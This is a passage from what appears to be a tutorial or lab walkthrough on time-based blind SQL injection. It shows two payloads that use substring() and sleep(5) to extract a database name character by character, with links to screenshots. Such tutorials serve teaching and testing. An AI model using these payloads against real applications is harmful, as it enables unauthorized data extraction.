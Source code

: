 ```sql
iron man' AND substring(database(),4,1)='P' AND sleep(5)-- -
```

[![sqlinjectblindsleep9](/images/sqlinjectblindsleep9.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep9.png)

```sql
iron man' AND substring(database(),5,1)='P' AND sleep(5)-- -
```

[![sqlinjectblindsleep10](/images/sqlinjectblindsleep10.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep10.png)